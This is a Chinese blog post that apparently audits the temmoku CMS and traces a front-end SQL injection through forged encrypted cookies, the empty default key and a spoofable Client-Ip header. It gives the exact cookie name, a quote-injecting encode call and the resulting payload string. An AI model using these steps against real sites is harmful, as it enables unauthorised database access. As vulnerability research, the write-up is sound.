 ```yaml
---
title: temmoku home版 t1.15 前台sqli
tags: 
  - 漏洞分析
categories: codereview
date: 2019-02-21 21:09:44
---
```


## 0x00
很久没有审计了，找了个简单的cms审计
这次找的是temmoku，他修改了thinkphp作为他的底层框架。
代码写的很难受，写出来的界面也很难受，所以找了个注入就不想看了，记录一下。

## 0x01 前台注入

这套cms，每个控制器都继承了`temmoku/controller.php`，其中controller构造函数做了相关权限控制
找到`temmoku/controller.php`，定位到__construct函数

```php
function __construct()
{
 $this->_view     =   new view();
    if(!cookie::get('USER_First_Visit')){
      cookie::set('USER_First_Visit',$_SERVER['REQUEST_TIME_FLOAT']);
    }
$lock=APP_PATH.'conf/install.lock';
  if(is_file($lock)){
    if('admin'!=MODULE && 'user'!=MODULE){
      hook_listen('index_power_begin');
    }
    //验证普通会员状态
    $this->User_Check();// 注入

    if('admin'!=MODULE && 'user'!=MODULE){
      hook_listen('index_power_end');
    }

  }
}
```
注意到第13行，调用了User_Check函数，这个函数完成了从cookie中获取到登陆后的加密字串，解密后再查询的操作。
```php
private function User_Check(){
      $ORDINARY_MEMBER=cookie::get('ORDINARY_MEMBER');
      if($ORDINARY_MEMBER){
      if(json_encode($ORDINARY_MEMBER)){
        $ORDINARY_MEMBER=decode($ORDINARY_MEMBER);
        list($uid,$password,$onlineip)=$r =explode(' ',$ORDINARY_MEMBER);
        if(!intval($uid) || !$password || C('ONLINEIP') != $onlineip || !$onlineip){
          cookie::del('ORDINARY_MEMBER');
          return;
        }
        $data = (new lib\user)->Cookie_Login($uid,$password);// TODO 伪造cookie 对password做数据注入
        if('0'===$data['code']){
          $data['UserDB']['thumb'] ? $data['UserDB']['thumb']=get_img_url($data['UserDB']['thumb']) : $data['UserDB']['thumb']='/public/global/images/default.png';
          C('MYDB',$data['UserDB']);
          $group=C('USER_GROUP.'.$data['UserDB']['groupid']);
          $group['setting']=unserialize($group['setting']);
          C('MYGROUP',$group);
        }else{
          cookie::del('ORDINARY_MEMBER');
          return;
        }
      }else{
        cookie::del('ORDINARY_MEMBER');
        return;
      }
    }
}
```
从cookie中获得ORDINARY_MEMBER相关的cookie内容，并交由decode解密，解密出uid,password,onlineip，直接带入到Cookie_Login函数，我们先来看一下这个函数，等会再讲如何构造加密串
```php
public function Cookie_Login($uid,$password){
    $UserDB=$this->select('*')->from(jab."user")->where("uid='$uid' AND password='$password'")->row();
    if($UserDB){
      return array("code"=>'0','text'=>"登录成功",'UserDB'=>$UserDB);
    }else{
      return array("code"=>'21','text'=>"密码错误");
    }
}
```
可以看到函数内第一句，进行了数据库查询，熟悉thinkphp的同学肯定知道where函数拼接参数同样能造成注入，那么问题就是如何构造出password来进行注入了，回到上面提到的decode函数，来看一下函数内容
```php
    /**
     * 解密函数
     * @param string $txt 需要解密的字符串
     * @param string $key 密匙
     * @return string 字符串类型的返回结果
     */
function decode($txt, $key = '', $ttl = 0){
    if (empty($txt)) return $txt;
    if (empty($key)) $key = md5(C('MD5'));
    // ... 后面的相关数学操作无关紧要
}
```
注意到在User_Check函数里调用decode时，并没有指定key，那么默认就是取配置文件中的MD5，其值默认为空，所以知道了key以及对应的加密函数，我们就能自己构造相关内容。
其中还有一个要注意的地方是，我们需要同时构造cookie的键内容和onlineip，只有当cookie中名字对时才能取到，只有当onlineip对时才能进行数据库查询。
先来看第一个，构造cookie名
定位`temmoku/lib/cookie.php`

```php
public static function get($key){
  $key=C('cookie_is_en')=='1' ? 'temmoku_'.md5(C('MD5')."_".$key) : 'temmoku_'.$key;
  return empty($_COOKIE[$key]) ? 0 : $_COOKIE[$key];
}
```
默认cookie_is_en为1，所以是加密的，cookie的名字为`temmoku_+md5("_ORDINARY_MEMBER")`
因为MD5默认为空，这样我们就能推出cookie名为`temmoku_c3daef9b5af4ca25121457287fd0c2ac`
其次我们需要构造onlineip,来看看这个onlineip是怎么获取的
定位`temmoku/app.php`

```php
private static function default_config(){
  // ...
  C('onlineip',getRealIp());// TODO 可伪造Ip
  define('onlineip', getRealIp());
  // ...
}
```
继续向下
```php
function getRealIp(){
  $ip=false;
  if(!empty($_SERVER["HTTP_CLIENT_IP"])){
    $ip = $_SERVER["HTTP_CLIENT_IP"];
  }
  if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
      $ips = explode (", ", $_SERVER['HTTP_X_FORWARDED_FOR']);
    if ($ip) { array_unshift($ips, $ip); $ip = FALSE; }
    for ($i = 0; $i < count($ips); $i++) {
        if (!preg_match ("/^(10│172.16│192.168)./", $ips[$i])) {
            $ip = $ips[$i];
            break;
        }
    }
  }
  return ($ip ? $ip : $_SERVER['REMOTE_ADDR']);
}
```
可以看出用Client-Ip就能伪造，那么现在问题都解决了，可以构造加密串了

## 0x02 构造加密串

```php
<?php
/**
 * Created by PhpStorm.
 * User: wh1t3P1g
 * Date: 2019/2/21
 * Time: 19:48
 */

function decode($txt, $key = '', $ttl = 0){
    ...
}

function encode($txt, $key = ''){
    ...
}

echo encode('1550750916.778 \' 127.0.0.1');
```
得到加密串`iBuikbGflt4lk4LiZ747G7NBIm9uPlLKikooVtsqagnfQIk1NZI0-rW`，直接加在cookie里就能造成系统出现数据库错误

## 0x03 总结
这个漏洞是比较经典的问题，用了加密后，开发者默认认为解密后的字符串是安全的，直接拼接到数据库操作上导致的注入。





